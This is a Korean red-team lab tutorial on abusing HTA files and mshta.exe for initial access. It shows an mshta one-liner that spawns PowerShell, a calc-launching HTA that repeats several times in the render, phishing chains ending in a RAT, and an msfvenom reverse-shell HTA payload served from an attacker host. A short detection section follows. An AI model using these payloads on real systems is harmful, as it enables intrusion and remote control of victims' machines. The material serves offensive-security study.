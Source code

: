 # HTA

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다. HTML, CSS, JavaScript 등의 웹 기술을 사용하여 윈도우 응용 프로그램과 같은 유저 경험을 제공할 수 있다. HTA는 일반적으로 .hta 확장자며 Mshta.exe라는 유틸리티로 실행된다.

Mshta.exe는 네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인! 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다. 

![](../obsidian_resources/Pasted%20image%2020230501172222.png)


## 보안적인 측면
일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제 임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다 ^^. 

기본적으로 아래 3 항목을 비활성화 한뒤 시작한다. 

![](../obsidian_resources/Pasted%20image%2020230501202117.png)

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

https://attack.mitre.org/techniques/T1218/005/

일단, 아래와 같이 mshta를 실애하면 powershell.exe 를 실행 Hello GROOT!를 보여준다.
```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

HTA -> VBScript 코드를 실행할 수 있다는것 자체가 이미 오용되기에 충분한 시나리오다!

![](../obsidian_resources/Pasted%20image%2020230501210226.png)

## 실습 

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을수 있다.
예를들어, 아래와 같은 시나리오를 통해 리버스 쉘을 받아 볼수도 있다.
-   LNK -> CMD -> Powershell ->  RAT
-   ZIP -> Password protected PDF + "password.lnk" -> RAT
-   DOCx -> LNK -> remote HTA -> Powershell ->  RAT
- 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

## 기본 HTA 스크립트 예제제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>

<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
HTML Application을 통해 계산기가 실행되는 것을 알 수 있다.
![](../obsidian_resources/Pasted%20image%2020230501171712.png)


## Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자.  shell_reverse_tcp HTA 페이로드를 만들어 준다.

- LHOST: 칼리 로컬 호스트 로컬 IP
- LPORT: Listener 포트 

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.
![](../obsidian_resources/Pasted%20image%2020230501175738.png)

브라우저에서 http://192.168.137[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](../obsidian_resources/Pasted%20image%2020230501175551.png)

### 대응 방안
- CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서  이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.